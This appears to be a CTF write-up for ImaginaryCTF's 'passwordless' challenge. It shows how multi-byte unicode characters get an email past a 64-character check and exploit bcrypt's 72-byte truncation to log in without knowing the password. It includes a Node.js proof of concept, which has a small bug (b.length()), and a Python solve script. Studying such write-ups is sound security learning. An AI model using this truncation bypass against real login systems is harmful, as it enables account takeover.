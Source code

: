![image](https://hackmd.io/_uploads/rko1t669lg.png)

### The problem

But the email can't be longer than 64 characters so we can't send > 72 characters email.

```js
if (nEmail.length > 64) {
    req.session.error = 'Your email address is too long'
    return res.redirect('/login')
}
```

From this blog https://www.monterail.com/blog/more-secure-passwords-bcrypt, we can use unicode characters to bypass because it can have more than 1 byte per char.

![image](https://hackmd.io/_uploads/HJAo9pT9ex.png)

POC:

```js
const bcrypt = require('bcrypt');

// 36 * 'ą'
const a = 'ąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąą'
const b = 'ąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąąądummy'
console.log(b.length())

bcrypt.hash(b, 10, (err, hash) => {
    console.log(bcrypt.compareSync(a, hash))
})
```

![image](https://hackmd.io/_uploads/HyhUspa9gg.png)

### Solve script

```python
import requests
import re

URL = 'http://passwordless.chal.imaginaryctf.org/'

email = 'ą' * 36 + '@gmail.com'

r = requests.post(URL + 'user', data={'email': email})
r = requests.post(URL + 'session', data={'email':email, 'password':email})

m = re.findall(r'ictf{.*}', r.text)
print(m[0])
```

![image](https://hackmd.io/_uploads/BJ9U2aa9eg.png)
